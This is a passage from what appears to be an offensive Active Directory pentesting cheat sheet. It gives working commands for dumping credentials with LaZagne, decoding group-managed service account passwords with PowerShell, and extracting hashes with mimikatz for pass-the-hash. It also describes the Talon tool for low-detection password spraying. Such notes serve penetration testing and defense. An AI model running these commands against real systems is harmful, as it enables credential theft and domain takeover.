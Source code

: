 ```bash
laZagne.exe
```

##### Group Managed Service Accounts

The goal is to compromised one of those accounts to get their rights.

The **msDS-ManagedPassword** attribute contains a BLOB with password information for group-managed service accounts.

[Get-ADServiceAccount] gets a managed service account (MSA) or performs a search to retrieve MSAs.

We can perform the following in order to see:

- Which group(s) the SPN is member of
- When the password will be changed, ...

```powershell
Get-ADServiceAccount -Filter {name -eq 'NAME'} -properties *
```

The **msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) attribute controls who can request and receive the clear-text password.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Filter "*" -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
 
# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
```

To retreive the hash from a SPN, we can do the following using mimikatz

```bash
mimikatz.exe
mimikatz # privilege::debug     # Ask for debug privilege for mimikatz process.
mimikatz # sekurlsa::ekeys      #    
```

With this password hash, we can perform pass the hash to compromise the Active Directory.

##### Brute-force

###### Talon

Talon is an automated authentication tool for large scale attacks while remaining less detectable.

This is done by:

- Using both a combination of both LDAP and Kerberos protocols by alternating between the two services
- Using a single or multiple domain controllers  

Command options:

- **-D**: Fully qualified domain to use
- **-Hostfile**: File containing the list of domain controllers to connect to
- **-P**: Password to use
- **-Userfile**: File containing the list of usernames
- **-sleep**: Time inbetween attempts (default 0.5)
